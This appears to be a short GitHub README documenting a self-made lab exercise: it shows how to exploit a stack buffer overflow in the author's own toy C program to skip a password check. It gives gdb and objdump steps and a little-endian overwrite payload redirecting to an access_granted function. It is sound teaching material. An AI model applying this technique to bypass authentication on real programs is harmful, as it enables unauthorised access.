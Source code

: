 **The summary**

Use of stack buffer overflow, entry into the system without a password.

**Handbook**

1) Determine the addresses of the functions

gcc +o main main.c // create an executable main:
objdump -d main    // code dissassembly

![image](https://github.com/user-attachments/assets/f5e961e8-aeea-4bd0-a0c2-01f4999685b1)

2) Select a place in the code where you can look into the stack and locate the password buffer

gdb ./main // load the executable file main for debugging
disas check_password // function dissassembly
break *0x00005555555551ac //break point "test %eax,%eax"
info breakpoints //checking breakpoints
run //starting program in gdb

![image](https://github.com/user-attachments/assets/92c43eeb-75e9-4acc-921a-6b2723b8d777)

3) Locate the register holding the return address

enter the example password "password"
when it stops at a breakpoint

info frame //current stack frame info
x/40x $rsp //memory examination
continue 
run 

enter the example password "AAAAAAAAAAAAAAAAAA" to cause a segmentation fault
when it stops at a breakpoint
x/40x $rsp //memory examination

By manipulating the number of 'A' characters and comparing the memory in the cases described, it was determined that the return address was 0x55555200.
Try overwriting it.

![image](https://github.com/user-attachments/assets/f478a511-cc5b-4a36-acb4-7748a7393f96)

4) Exploit

What we know so far: 

0x7fffffffddd6 //beginning of the buffer (41 -> 'A')
0x7fffffffddc8 //register storing the return address

0x7fffffffddc8 value is currently 0x55555200.
We'd like to inject here access_granted's address which is 0x555555555169

![image](https://github.com/user-attachments/assets/df8b4da8-cfd9-4f5c-a9f0-3bf6c7e4575c)

Looking at the memory examination, we need to pass 0x555555555169 value just after overrun of the buffer. 

0x555555555169 - 6 bytes value. 

We're operating on a little endian system so we need to perform a small operation

0x555555555169 -> 0x0000555555555169 (x86-64)
0x0000555555555169 -> \x69\x51\x55\x55\x55\x55\x00\x00 (LE)

We are preparing for the interpretation of characters and not binary form 
AAAAAAAAAAAAAAAAAA\x69\x51\x55\x55\x55\x55\x00\x00 -> AAAAAAAAAAAAAAAAAAiQUUUU

Finally, let's try to enter this fake password

![image](https://github.com/user-attachments/assets/b425eb30-2600-43f4-99b5-f75a0adbbc43)


Inspired by https://pagedout.institute/ 
Summer 2k24
